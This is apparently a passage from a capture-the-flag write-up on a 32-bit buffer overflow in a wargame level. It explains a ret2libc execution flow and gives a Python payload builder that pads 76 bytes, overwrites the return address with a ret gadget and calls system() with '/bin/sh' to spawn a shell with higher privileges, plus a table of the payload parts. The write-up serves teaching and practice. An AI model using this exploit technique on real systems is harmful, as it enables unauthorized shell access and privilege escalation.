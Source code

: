 ### Execution Flow:

1. **Buffer overflow** overwrites return address with `0x0804854b`
2. **First ret instruction** executes, popping `system()` address into EIP
3. **System() executes** with "/bin/sh" as argument
4. **Shell spawned** with level3 privileges

### Visual Execution Flow:

```
┌─────────────────┐    ┌─────────────────┐    ┌─────────────────┐
│   p() returns   │───▶│  ret @ 0x0804   │───▶│  system() call  │
│  to 0x0804854b  │    │  pops system    │    │  with "/bin/sh" │
└─────────────────┘    │  from stack     │    └─────────────────┘
                       └─────────────────┘
```

---

## 🔨 Payload Construction

Let's build our exploit payload step by step:

```python
import struct

# Discovered addresses
system_addr = 0xb7e6b060    # system() function
binsh_addr = 0xb7f8cc58     # "/bin/sh" string
ret_addr = 0x0804854b       # ret instruction in main

# Payload construction
payload = ""
payload += "A" * 76                               # Fill 76-byte buffer
payload += "BBBB"                                 # Overwrite saved EBP
payload += struct.pack("<I", ret_addr)            # Return to ret instruction
payload += struct.pack("<I", system_addr)         # system() address
payload += struct.pack("<I", ret_addr)            # Return address for system
payload += struct.pack("<I", binsh_addr)          # "/bin/sh" argument

print("Payload length:", len(payload))
print("Payload bytes:", repr(payload))
```

### Payload Breakdown:

| Component | Size | Value | Purpose |
|-----------|------|-------|---------|
| Buffer padding | 76 bytes | "A" * 76 | Fill buffer to reach saved EBP |
| EBP overwrite | 4 bytes | "BBBB" | Overwrite saved EBP (arbitrary) |
| Return address | 4 bytes | 0x0804854b | Point to ret instruction |
| System address | 4 bytes | 0xb7e6b060 | Address ret instruction jumps to |
| Return for system | 4 bytes | 0x0804854b | Where system() returns (cleanup) |
| System argument | 4 bytes | 0xb7f8cc58 | "/bin/sh" string for system() |
